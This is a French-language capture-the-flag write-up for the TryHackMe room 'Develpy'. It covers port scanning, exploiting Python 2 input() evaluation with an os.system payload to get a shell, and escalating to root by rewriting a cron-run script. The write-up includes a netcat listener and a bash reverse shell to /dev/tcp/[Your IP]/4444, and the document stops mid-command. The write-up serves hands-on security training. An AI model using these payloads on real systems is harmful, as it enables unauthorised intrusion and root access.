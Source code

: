 # Develpy-Write-up
Write-up Room Develpy Tryhackme


Cliquez [ici](https://tryhackme.com/room/bsidesgtdevelpy) pour accéder au room.

# Première étape : Identifier la cible et ses vulnérabilités.

On commence par un scan de port avec nmap.

```bash

nmap -sS -A -Pn [IP]
```


![](img/Develpy_scan.png?raw=true) 

On voit q'au niveau du port 10000 il y a un petit script python qui tourne.
On se connecte au serveur sur ce port pour voir ce que ça donne.


```bash

nc [IP] 10000
```
![](img/Develpy_nc0.png?raw=true)

![](img/Develpy_nc0-1.png?raw=true)

>Ce script est écrit en python mais dans quelle version de python?
>On voit aussi que le module input est utilisé.


**NameError: name 'a' is not defined

On a l'exception suivante si on entre une lettre.
>Ce qui veut dire que python n'a pas pu identifier la variable ou le module "a" : On a donc pas définit une varibale ou un module de nom de "a"

**Il s'agit d'une vulnérabilité de python2 qui permet d'exécuter des codes sur la machine via python.

# Deuxième étape : exploitation de vulnérabilité

Il y a plusieurs manières d'exploiter cette vulnérabilité.

```python
__import__('os').system('bash')
```
On va envoyer ce code ci-dessus pour exécuter la commande bash sur la machine.
Une fois que ça serra fait on aurra accès à la machine sur l'utilisateur sur lequel est exécuté le script.

![](img/Develpy_nc.png?raw=true)

On est mainténant loggé sur le user king.

```bash
cat user.txt
```
Avec la commande ci-dessus on a le premier flag.


# Troisième étape : Escalade de privilège


![](img/Develpy_nc_id.png?raw=true)

![](img/Develpy_nc_cron.png?raw=true)

Le fichier root.sh est executé à tout moment par le cron en root.
En modifiant son contenu on pourra donc exécuter un script pour se connecter au shell root.
Quand ça serra fait on aurra accès au root.

Démarrons une connexion en écoute(listener) sur notre terminal locale.
```
nc -l -vv -p 4444
```
4444 est le port que j'ai utilisé,vous pouvez le changer.

Supprimer le fichier root.sh.

Executer la commande ci-dessous pour établir la connection.

```bash
echo "bash -i >& /dev/tcp/[Your IP]/4444 0>&1" >

```
